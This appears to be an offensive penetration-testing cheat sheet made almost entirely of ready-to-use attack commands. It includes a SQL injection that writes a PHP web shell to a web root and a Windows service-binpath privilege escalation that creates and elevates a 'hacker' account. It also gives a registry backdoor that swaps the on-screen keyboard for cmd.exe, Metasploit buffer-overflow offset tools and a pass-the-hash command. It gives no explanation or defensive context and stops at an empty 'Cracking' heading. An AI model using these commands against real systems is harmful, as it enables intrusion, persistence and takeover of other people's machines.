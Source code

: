 	<[IP]>:<[PORT]>/<[URL]>.php?<[PARAMETER]>=999 union select 1,2,"<?php echo shell_exec($_GET['cmd']);?>",4,5,6 into OUTFILE '/var/www/html/evil.php'

# Buffer Overflow

	/usr/share/metasploit-framework/tools/pattern_create.rb <[LENGTH]>

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -<[ADDRESS]>

# Privilege Escalation

<b>Linux</b>
	find / -perm -u=s -type f 2>/dev/null
	
	https://gtfobins.github.io/
	
<b>Vulnerable Services</b>

	accesschk.exe -uwcqv "Authenticated Users" * /accepteula
	
	sc qc <[VULNERABLE_SERVICE]>
	
	sc config <[VULNERABLE_SERVICE]> obj= ".\LocalSystem" password= ""
	
	sc config <[VULNERABLE_SERVICE]> start= "auto"
	
	sc config <[VULNERABLE_SERVICE]> binpath= "net user hacker Hacker123 /add"
	
	sc stop <[VULNERABLE_SERVICE]>
	
	sc start <[VULNERABLE_SERVICE]>
	
	sc config <[VULNERABLE_SERVICE]> binpath= "net localgroup administrator hacker /add"
	
	sc stop <[VULNERABLE_SERVICE]>
	
	sc start <[VULNERABLE_SERVICE]>
	
	sc config <[VULNERABLE_SERVICE]> binpath= "net localgroup \"Remote Desktop Users\" hacker /add"
	
	sc stop <[VULNERABLE_SERVICE]>
	
	sc start <[VULNERABLE_SERVICE]>

<b>Win10:</b>

	reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f 

	Then ctrl+alt+canc and start virtual keyboard

# Pass the hash

	Export SMBHASH=<[HASH]>
	
	pth-winexe -U administrator% //<[IP]> cmd
	
# Cracking
